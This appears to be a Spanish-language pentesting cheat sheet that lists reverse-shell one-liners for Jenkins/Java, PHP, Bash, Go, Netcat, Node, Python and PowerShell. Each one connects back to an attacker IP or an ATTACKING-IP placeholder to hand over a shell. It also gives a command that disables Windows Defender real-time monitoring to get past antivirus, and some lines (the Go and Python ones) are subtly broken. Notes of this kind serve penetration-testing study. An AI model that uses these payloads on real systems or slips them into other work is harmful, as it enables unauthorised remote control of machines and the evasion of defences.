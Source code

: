 ### Kali tiene una serie de shells nativas

    /usr/share/webshells/

### Java (jenkins)
conseguir shell inversa desde el script console

    r = Runtime.getRuntime()
    p = r.exec (["/bin/bash","-c","exec 5<>/dev/tcp/10.18.1.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
    p.waitFor()



### PHP

    <?php $sock = fsockopen("10.10.17.146","4444"); $proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>

#### o

    php -r '$sock=fsockopen("10.14.55.255",666);exec("/bin/sh -i <&3 >&3 2>&3");'

### BASH

    0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196

#### o
    exec 5<>/dev/tcp/ATTACKING-IP/80
    cat <&5 | while read line; do $line 2>&5 >&5; done  

#### o

    bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1

### Golang

    echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","127.0.0.1:1337");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;http://cmd.Run();}'>/tmp/sh.go&&go run /tmp/sh.go

### Netcat

    nc -e /bin/sh ATTACKING-IP 80

###  Node


    require('child_process').exec('bash -i >& /dev/tcp/10.0.0.1/80 0>&1');




### PYHON
    
    import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.10.207.168”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);


### POWERSHELL

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"


Si el antivirus no nos deja crear la shell:
    
    Set-MpPreference -DisableRealtimeMonitoring $true


con esta página podemos crear todo tipo de reverseshells:
    
    https://www.revshells.com/
